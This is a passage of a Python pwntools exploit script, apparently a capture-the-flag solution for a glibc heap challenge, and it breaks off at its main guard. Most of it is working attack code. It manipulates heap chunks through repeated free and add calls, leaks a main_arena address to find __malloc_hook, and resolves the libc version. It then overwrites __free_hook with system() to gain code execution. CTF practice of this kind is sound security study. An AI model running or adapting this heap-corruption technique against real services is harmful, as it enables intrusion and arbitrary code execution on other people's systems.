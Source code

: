 ```python
    free(21)
    free(22)
    free(23)
    free(0)
    add(0x1000)#0
    gdb.attach(sh)
    add(0x57,'1'*7)#17
#    free(14)
#    add(0x37,p64(1)+p8(0)*8)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*7)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*6)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*5)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*4)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*3)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*2)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p8(1)*1)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4)                     
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*3)    
    show(17)
    addr=u64(sh.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-391
    log.info('main_arena:'+hex(addr))
    malloc=addr-0x10
    log.info('malloc_hook:'+hex(malloc))
    x=libcfind.finder('__malloc_hook',malloc,num=5)

"""
multi libc results:
[-] 0: libc6_2.15-0ubuntu10.23_amd64(source from:ubuntu-eglibc)
[-] 1: libc6-amd64_2.30-0ubuntu2.2_i386(source from:ubuntu-old-glibc)
[-] 2: libc6_2.30-0ubuntu2_amd64(source from:ubuntu-old-glibc)
[-] 3: libc6-amd64_2.31-0ubuntu9.2_i386(source from:ubuntu-glibc)
[-] 4: libc6_2.31-0ubuntu9_amd64(source from:ubuntu-glibc)
[-] 5: local-ad9f264101ca975f82b40fffd5aa6f763cfd1ed9(source from:/usr/lib/x86_64-linux-gnu/libc-2.31.so)
[-] 6: libc6-amd64_2.30-0ubuntu2_i386(source from:ubuntu-old-glibc)
[-] 7: libc6-amd64_2.31-0ubuntu9_i386(source from:ubuntu-glibc)
[-] 8: libc6_2.31-0ubuntu9.2_amd64(source from:ubuntu-glibc)
[-] 9: libc6_2.30-0ubuntu2.2_amd64(source from:ubuntu-old-glibc)
[!] you can choose it by hand
    """

    add(0x57,'22222')
    free(18)
    free(17)
    free(14)
    add(0x37,'11122223'+p32(0x61)+p8(0)*4+p64(x.dump('__free_hook')))#14
    add(0x57)#17
    add(0x57,p64(x.dump('system'))) #18
    free(0)
    #add(0x57,'')#18
 #   free(1)
    

if __name__ == "__main__":
```